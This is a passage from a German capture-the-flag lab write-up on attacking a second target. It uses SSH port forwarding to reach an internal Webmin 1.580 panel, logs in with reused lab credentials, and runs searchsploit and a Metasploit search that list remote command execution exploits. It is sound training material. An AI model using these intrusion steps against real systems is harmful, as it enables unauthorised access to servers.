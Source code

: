 ```
ssh -L 10000:localhost:10000 agent47@10.10.3.133

```
  

Geben Sie anschließend in Ihrem Browser „localhost:10000“ ein, um auf den neu freigegebenen Webserver zuzugreifen.

jetzt bekommen wir die Seite des 2. Ziels. 

Insofern fangen wir wieder von Forne mit 

# Enumeration Ziel 2
Beim Öffnen sehen wir das es sich um das CMS "Webmin" handelt

Versuch mit bereits vorhandenen Creds (agent47:videogamer124) anzumelden -> Erfolgreich 

Nach anmeldung feststellung: 

```
System hostname 	gamezone (127.0.1.1)
Operating system 	Ubuntu Linux 16.04.6
Webmin version 	1.580
Time on system 	Thu Oct 9 08:45:04 2025
Kernel and CPU 	Linux 4.4.0-159-generic on x86_64
```



# Exploiting Ziel 2

```
root@ip-10-10-64-221:~# searchsploit webmin 1.580
---------------------------------------------- ---------------------------------
 Exploit Title                                |  Path
---------------------------------------------- ---------------------------------
Webmin 1.580 - '/file/show.cgi' Remote Comman | unix/remote/21851.rb
Webmin < 1.920 - 'rpc.cgi' Remote Code Execut | linux/webapps/47330.rb
---------------------------------------------- ---------------------------------
Shellcodes: No Results

```

Wir nehmen hier jetzt dann metasploit 

```
search webmin 1.580

atching Modules
================

   #  Name                                         Disclosure Date  Rank       Check  Description
   -  ----                                         ---------------  ----       -----  -----------
   0  exploit/unix/webapp/webmin_show_cgi_exec     2012-09-06       excellent  Yes    Webmin /file/show.cgi Remote Command Execution
   1  auxiliary/admin/webmin/edit_html_fileaccess  2012-09-06       normal     No     Webmin edit_html.cgi file Parameter Traversal Arbitrary File Access


Interact with a module by name or index. For example info 1, use 1 or use auxiliary/admin/webmin/edit_html_fileaccess

```
